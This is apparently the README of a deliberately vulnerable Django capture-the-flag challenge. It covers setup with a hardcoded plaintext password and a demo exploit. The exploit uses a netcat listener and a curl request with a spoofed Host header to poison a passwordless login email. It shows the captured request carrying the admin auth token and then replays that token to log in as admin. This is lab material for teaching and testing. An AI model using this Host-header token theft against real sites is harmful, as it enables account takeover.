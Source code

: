 # Install

## External requirements

- a working mail server, and a correct django configuration
- for dev, it's an sqlite database, django support other backend
- Flag is configurable on settings.py
- Special group is configurable on settings.py

## Build

```
docker compose build
docker compose up -d
```

## Init

```
docker compose exec python ./manage.py migrate
docker compose exec python ./manage.py createsuperuser
```

Login to admin
- Create a special group, the name should be the one configured in settings.py
- Create at least one user and add it in the group
- Optionaly create a few user (normal, and staff) (locahost:8001/admin), add first_name, last_name and email

Then logout from the admin. (This is important, if not, you will be loggin on the wepapp as superadmin)

PASSWORD DJANGO
RGdadGGUQmuoCfGUX^ktU&voyuHhsy3!

## Demo Exploit

Launch a nc listner
```
nc -l -p 8082
```
Get a victim on the user directory page (http://localhost:8001/userdir)
Ask for a no pass login token, with and evil host and the victim mail
```
curl -H "Host: localhost:8082" http://localhost:8001/nopasslogin\?email\=special1@email.host
```

Wait for the admin to click on the no login link, and get the token, you will receive some data on the netcat shell, for exemple:
```
GET /nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ== HTTP/1.1
Host: localhost:8002
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) QtWebEngine/5.15.8 Chrome/87.0.4280.144 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: en-US,en;q=0.9
DNT: 1
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: search_parameters=%7B%22addresses%22%3A%22on%22%2C%22subnets%22%3A%22on%22%2C%22vlans%22%3A%22on%22%2C%22vrf%22%3A%22off%22%2C%22pstn%22%3A%22off%22%2C%22circuits%22%3A%22on%22%2C%22customers%22%3A%22off%22%7D; expandfolders=0; sstr=%7C18486%7C; csrftoken=sJzEIZxD90nlUl1a8CzCLVWwdZPru2qn
```

Now, you can use the auth param, with the correct host to login as the admin user, go to:
`http://localhost:8001/nopasslogin?auth=YWRtaW5AYWRtaW4uaG9zdDoxcUJzeHM6ajRRcjliNkc2Z1BmRmNQRXVpVDkzQkItNzI4dVFSOG9TU0J4Z2k0MzhxVQ==`

# Note

Any user in the special group will automaticly click on the link, you should ensure that the django code can reach the controlled target (in a docker, the localhost:8002 will not work)

For now, as a poc (/TODO):
- login and logout views are not handled correctly, login is accessible when you're already logged in for exemple
- dev deps are installed in the docker image
